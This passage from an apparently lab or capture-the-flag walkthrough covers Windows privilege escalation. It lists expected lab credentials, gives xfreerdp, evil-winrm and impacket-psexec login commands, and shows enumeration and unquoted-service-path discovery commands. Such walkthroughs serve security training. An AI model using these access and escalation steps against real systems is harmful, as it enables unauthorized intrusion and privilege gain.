 Expected credentials to find:
- overclock:Administrator2025!
- Administrator:Password123!

## Phase 4: Windows Privilege Escalation

### Step 4.1: Initial Windows Access

Once we have credentials:

```bash
# RDP access
xfreerdp /v:$TARGET /u:overclock /p:Administrator2025! /cert:ignore +clipboard /dynamic-resolution

# Evil-WinRM for command line
evil-winrm -i $TARGET -u overclock -p Administrator2025!

# PSExec
impacket-psexec overclock:Administrator2025!@$TARGET
```

### Step 4.2: Windows Enumeration

```powershell
# System information
systeminfo
hostname
whoami /all
net users
net localgroup administrators

# Check for interesting files
Get-ChildItem -Path C:\ -Include *.txt,*.xml,*.config,*.log -Recurse -ErrorAction SilentlyContinue

# Check services
Get-Service | Format-Table Name, Status, StartType, DisplayName
Get-WmiObject win32_service | Select-Object Name, DisplayName, PathName, State
```

### Step 4.3: Unquoted Service Paths

This is a common Windows vulnerability:

```powershell
# Find unquoted service paths
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """

# Or in PowerShell
Get-WmiObject win32_service | Where-Object {$_.PathName -notmatch '"' -and $_.PathName -notmatch 'C:\\Windows'} | Select-Object Name, PathName

# Check each service
sc qc VulnScanner
sc qc CommonAppService
sc qc VendorUpdater
```
